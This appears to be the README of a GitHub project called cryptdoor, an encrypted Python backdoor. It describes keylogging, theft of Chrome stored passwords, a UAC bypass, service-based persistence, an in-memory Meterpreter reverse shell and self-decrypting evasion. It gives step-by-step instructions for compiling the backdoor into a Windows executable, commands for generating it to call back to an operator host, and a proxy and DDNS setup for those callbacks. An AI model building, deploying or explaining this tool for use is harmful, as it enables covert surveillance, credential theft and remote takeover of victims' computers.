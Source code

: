 cryptdoor
=========

AES encrypted python backdoor that communicates AES encrypted data.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is also implemented for windows using pyHook and the keystrokes are transmitted over the secure AES encrypted connection.
All communications apart from ones meterpreter makes are encrypted with AES.
On top of this the script itself is encrypted with AES and decrypts itself in memory (taken from pyherion).

Compilation
=========

The backdoor script can be compiled to a standalone PE executable using pyinstaller on windows.

1. Install python27: https://www.python.org/ftp/python/2.7.8/python-2.7.8.msi
2. Run this script to install pip: https://bootstrap.pypa.io/get-pip.py
3. Press Windows Key+Pause, then "Advanced system settings" then "Environment Variables"
4. You might or not have a "PATH" variable listed there if not add one and write

	"C:\Python27;C:\Python27\Scripts"

If you do already have one just add a colon before adding this to the variable like:

	"C:\oldpath;C:\Python27;C\Python27\Scripts"

5. Open a new cmd terminal and you should be able to:

	pip install pyinstaller pycrypto

6. Add ';C:\Python27\Lib\site-packages\PyInstaller' to the end of your PATH variable
7. Install pyHook: http://sourceforge.net/projects/pyhook/files/latest/download
8. Install pywin32: http://sourceforge.net/projects/pywin32/files/pywin32/
9. Place the socks.py file in the same directory as backdoor.py
10. Open a new cmd promt and cd to wherever backdoor.py is.

	pyinstaller -F -w backdoor.py

11. That's it, enjoy your exe in dist.

Usage
=========

cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py host port

You can add a -p to attempt automatic persistence like:

	./cryptdoor.py host port -p

host and port refer to the host and port of the listening server.

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.
         wget url            -  Download a file from url to pwd.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.

Proxies
=========

If you wish to have your backdoor connect back to you through a HTTP/s proxy, there a few things we have to do:

1. Edit the cryptdoor script from line 245-248, and fill in the values for the proxy details.

2. Get a DDNS pointed at your IP (proxying does not work without one.)

3. Then generate your backdoor in the normal way but replace the IP with your DDNS:

	./cryptdoor.py DDNS port



